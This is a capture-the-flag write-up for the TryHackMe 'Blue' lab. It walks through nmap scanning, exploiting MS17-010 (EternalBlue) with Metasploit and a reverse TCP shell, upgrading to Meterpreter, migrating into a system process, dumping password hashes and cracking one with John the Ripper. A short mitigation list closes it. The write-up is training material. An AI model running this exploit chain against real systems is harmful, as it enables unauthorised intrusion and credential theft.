



###### TryHackMe - Blue
**Category: Windows SMB Exploitation - MS17-010 vulnerability (EternalBlue)**

[Blue](https://tryhackme.com/room/blue)

---
###### Recon
Target: `10.0.0.1`

Attacker: `10.0.0.2`

A quick port scan:
```
$ nmap -Pn --min-rate 1000 -p- 10.0.0.1

Host is up (0.0027s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```
A bunch of open SMB ports. Let's check if there are any vulnerabilities using another nmap scan.
###### Enumeration
```
$ nmap -sV -Pn --script vuln -p 135,139,445,3389,49152,49153,49154,49158,49159 10.0.0.1

Host is up (0.0045s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
Based on this nmap result, this target is vulnerable to the EternalBlue exploit (MS17-010). This is a critical RCE vulnerability affecting SMBv1.
###### Exploitation
```
$ msfconsole
search ms17-010
use 0
```



```
set payload windows/x64/shell/reverse_tcp
show options
set RHOST 10.0.0.1
SET LHOST 10.0.0.2
exploit
```



###### Upgrading to a Meterpreter shell
For better interaction, we can try upgrading our current shell into a Meterpreter shell. We first need to background the current shell (CTRL+Z), then:
```
use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION <id>
run
```



`sessions -l` is going to list all current sessions. Find the session connected to the target machine and get its session id.
###### Escalation / Persistence
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We can try migrating to a stable system process for better persistence:
```
meterpreter > ps

Process List
============

	 PID   PPID  Name             Arch  Session  User                        Path
 ---   ----  ----             ----  -------  ----                        ----
 0     0     [System Process
             ]
 4     0     System           x64   0
 396   652   LogonUI.exe      x64   1        NT AUTHORITY\SYSTEM         C:\Windows\system32\LogonU
                                                                         I.exe
 416   4     smss.exe         x64   0        NT AUTHORITY\SYSTEM         \SystemRoot\System32\smss.
                                                                         exe
 428   700   svchost.exe      x64   0        NT AUTHORITY\SYSTEM
 556   548   csrss.exe        x64   0        NT AUTHORITY\SYSTEM         C:\Windows\system32\csrss.
                                                                         exe
 604   548   wininit.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\system32\winini
                                                                         t.exe
 612   596   csrss.exe        x64   1        NT AUTHORITY\SYSTEM         C:\Windows\system32\csrss.
                                                                         exe
 652   596   winlogon.exe     x64   1        NT AUTHORITY\SYSTEM         C:\Windows\system32\winlog
                                                                         on.exe
...

meterpreter > migrate 708
[*] Migrating from 2068 to 708...
[*] Migration completed successfully.
```

Dumping password hashes:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Cracking the password of `Jon` using `johntheripper`:
```
$ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt
$ /usr/sbin/john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)
```

We successfully cracked the password for user Jon. This gives us access to the user account, completing the exploit chain.

###### Mitigation (Brief)
- Install current Windows patches.
- Disable SMBv1 if not required.

